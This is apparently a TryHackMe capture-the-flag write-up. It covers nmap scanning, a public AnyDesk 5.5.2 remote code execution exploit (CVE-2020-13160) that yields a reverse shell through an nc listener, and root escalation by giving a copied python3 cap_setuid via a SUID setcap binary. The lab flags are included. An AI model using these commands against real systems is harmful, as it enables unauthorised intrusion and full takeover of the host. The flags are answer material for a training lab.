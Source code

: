 # IP
10.10.226.12

## Enumeration

### Nmap
Found 2 port running on the system 
```console
❯ nmap -sC -sV 10.10.226.12 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 11:52 IST
Nmap scan report for 10.10.226.12
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp open  ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 791.73 seconds
```

The service running on port `7070/tcp` is anyDesk, on googling found this service to be exploitable ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160)) for linux systems. 


## Exploit
### Anydesk ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160))
Found Remote Code execution for `Anydesk 5.5.2`, after making changes to the exploit and running this exploit got a reverse shell.
```console
❯ python2 49613.py
sending payload ...
reverse shell should connect within 5 seconds
```
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.226.12] 44538
python3 -c "import pty; pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$
```
Found `user.txt` 
```console
annie@desktop:/home/annie$ cat user.txt
THM{N0t_Ju5t_ANY_D3sk}
```
### Privilege Escalation 
Found `setcap` as `SUID` binary on looking for exploit found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).
```console
annie@desktop:/home/annie$ cp /usr/bin/python3 .
annie@desktop:/home/annie$ setcap cap_setuid+ep ./python3
annie@desktop:/home/annie$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@desktop:/home/annie# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}

```
